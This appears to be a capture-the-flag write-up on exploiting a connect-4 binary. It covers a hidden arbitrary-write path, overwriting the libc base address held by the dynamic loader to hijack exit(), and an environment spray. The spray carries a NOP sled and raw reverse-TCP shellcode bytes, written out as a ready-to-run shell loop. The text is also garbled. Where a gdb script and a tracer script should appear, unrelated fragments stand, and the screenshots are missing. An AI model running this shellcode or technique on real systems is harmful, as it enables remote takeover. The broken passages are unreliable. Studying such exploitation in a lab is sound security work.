In this level we are presented with a connect 4 game written with ncurses. After playing a couple of times we find a combination to win: DHHDLLDHDDDLDD
 
Nothing happens though so lets fire up Hopper and take a look at the code. A good place to start is by analyzing the code around the you win and you lose exit strings and actually, after priting the you win string we can find an interesting piece of code before the call to exit()

If we decompile we can easily read what the code is doing:

If we win in 0 seconds, and the number or arguments passed to the program is 2 (the program and a first argument), then the first argument is converted into an unsigned long and with gdb we can see that scanf("%x", 0xbffffab8) is called, so we are writing whatever hexadecimal value we receive in stdin as an unsigned integer(4 bytes) in the stack. Then the program checks if the value read starts with 0x0804xxxx or 0xbxxxxxxx and if thats not the case, the value read from the first argument is stored in the address got from the stdin. So basically we have a 4 bytes write to any arbitrary address not starting with those prefixes.
Lets check it. First we need to prepare a file with the combo needed to win in 0 seconds and the value we want to write in memory:

Now we need to run the program with an argument pointing to an address outside the restricted areas. If we look into the process memory mapping, we see that only a tiny portion of the heap is outside those addresses:

We can increase it by augmenting the stack area running ulimit -s unlimited effectively disabling ASLR:

Much better, now the only protected memory area are the stack and the binary. Too bad we cannot overwrite `exit@GOT since its going to be called right after the arbitrary 4 bytes write.
For now we are going to write 0x41414141 in 0x4001f000 that has write permissions to verify the vulnerability.
exit()
Pretty cool!! but useless ... so where and what to write??? The only code left to run is the call to exit() so we need a way to hijack that call and we cannot write to the GOT. Lets review what is going to happen when we reach the call to exit() and lets try to find a place to redirect the execution flow:
- The program calls
exit()and jumps toPLT PLTjumps to theGOTbut since the address has not being resolved yet, we jump to the dynamic loader to locate the address ofexit()in libc and write the address to theGOTso we can effectively jump to theexit()code.
In order to calculate the exit() address, the dynamic loader will check libc address and the offset of exit() in libc. If we can influence either the base or the offset we will be able to redirect the original call to any arbitrary location. If we are going to debug the dynamic loader, we better get ourselves some symbols.
- libc debug symbol: sudo apt-get install libc-dbg
- libc6 source: sudo apt-get source libc6*
Don't know why but symbols for the loader need to be manually loaded. Adjust the ld-linux address and add these lines to a gdb script:
scanf("%x", 0xbffffab8)
Run gdb and check that ld symbols are loaded

We want to find out where the libc address or exit offset are stored so we can recognize them while tracing the loader resolution. These are the values we are looking for:

Ok, lets start the tracing. The first instruction in ld-linux is:

And look that, we even have comments!! ;) Ok, the _dl_runtime_resolve funcion doesn't look too scary:

_dl_fixup is a different thing, but it has few calls and the second one to _dl_lookup_symbol_x looks promising.

As seen in the screenshot, right after the call EAX is updated with 0x40082000 which contains 0x40083000 the libc base address we were looking for. And if you go up to the process memory mapping, you will see that that address is writable!
In this case we were lucky, the libc address pop up quite early, but I wrote this script to automate the task in case I had to trace deep in the loader guts:
0x0804xxxx
Running the tracer, we can quickly find the address where the libc base is stored:

OK, So exit@GOT is going to be updated with libc_base + exit_offset; we now control libc base, and we know the offset so if we want to redirect the execution flow, lets say that to 0x41414141 we have to overwrite the libc base address with 0x41414141 - 0xa1354 = 0x41372ded. Let's try it, we will update the combo file with this value (so it is sent to the program via stdin) and call the executable with 0x40082000 as argument.

Sweet, we now control EIP!! But where should we jump?? We dont control any area in the stack and we cannot pass more arguments to the program, so the only thing we can do is a Environment variable Spray with a large NOP sled and a shellcode and then jump to a high address (0xbff00000 + 0xa1354) of the stack hoping to land in the NOP sled.
Shellcode: reverse TCP connection to port 4444 on local machine:

Environment Spray:
for i in $(seq 1 1024); do export payload$i="`python -c "print '\x90'*2048+'\xbf\xdd\xc9\xc5\xd6\xd9\xc5\xd9\x74\x24\xf4\x58\x29\xc9\xb1\x12\x83\xc0\x04\x31\x78\x0e\x03\xa5\xc7\x27\x23\x64\x03\x50\x2f\xd5\xf0\xcc\xda\xdb\x7f\x13\xaa\xbd\xb2\x54\x58\x18\xfd\x6a\x92\x1a\xb4\xed\xd5\x72\x38\x0e\x26\x83\xae\x0c\x26\x92\x72\x98\xc7\x24\xec\xca\x56\x17\x42\xe9\xd1\x76\x69\x6e\xb3\x10\x5d\x40\x47\x88\xc9\xb1\xc5\x21\x64\x47\xea\xe3\x2b\xde\x0c\xb3\xc7\x2d\x4e'"`"; done
Failed attempt:

aaaaand we got our shell:

Voila!!